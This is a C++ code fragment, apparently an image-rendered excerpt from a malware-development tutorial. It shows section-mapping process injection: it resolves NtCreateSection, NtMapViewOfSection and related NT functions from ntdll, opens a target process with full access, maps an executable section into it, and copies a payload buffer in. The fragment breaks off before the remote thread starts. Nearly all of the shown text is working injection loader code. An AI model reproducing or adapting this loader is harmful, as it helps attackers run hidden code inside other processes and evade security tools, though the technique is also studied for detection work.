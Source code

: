 ```cpp
  LARGE_INTEGER sectionS = { s };
  HANDLE sh = NULL; // section handle
  PVOID lb = NULL; // local buffer
  PVOID rb = NULL; // remote buffer
  HANDLE th = NULL; // thread handle
  DWORD pid; // process ID

  pid = findMyProc(argv[1]);

  OBJECT_ATTRIBUTES oa;
  CLIENT_ID cid;
  InitializeObjectAttributes(&oa, NULL, 0, NULL, NULL);
  cid.UniqueProcess = (PVOID) pid;
  cid.UniqueThread = 0;

  // loading ntdll.dll
  HANDLE ntdll = GetModuleHandleA("ntdll");

  pNtOpenProcess myNtOpenProcess = 
  (pNtOpenProcess)GetProcAddress(
    ntdll, "NtOpenProcess");
  pNtCreateSection myNtCreateSection = 
  (pNtCreateSection)(GetProcAddress(
    ntdll, "NtCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pRtlCreateUserThread myRtlCreateUserThread  = 
  (pRtlCreateUserThread)(GetProcAddress(
    ntdll, "RtlCreateUserThread"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));

  // create a memory section
  myNtCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, (PLARGE_INTEGER)&sectionS, 
  PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

  // bind the object in the memory 
  // of our process for reading and writing
  myNtMapViewOfSection(sh, GetCurrentProcess(), 
  &lb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_READWRITE);

  // open remote proces via NT API
  HANDLE ph = NULL;
  myNtOpenProcess(&ph, PROCESS_ALL_ACCESS, &oa, &cid);

  if (!ph) {
    printf("failed to open process :(\n");
    return -2;
  }

  // bind the object in the memory of the target process
  // for reading and executing
  myNtMapViewOfSection(sh, ph, &rb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_EXECUTE_READ);

  // write payload
  memcpy(lb, my_payload, sizeof(my_payload));

```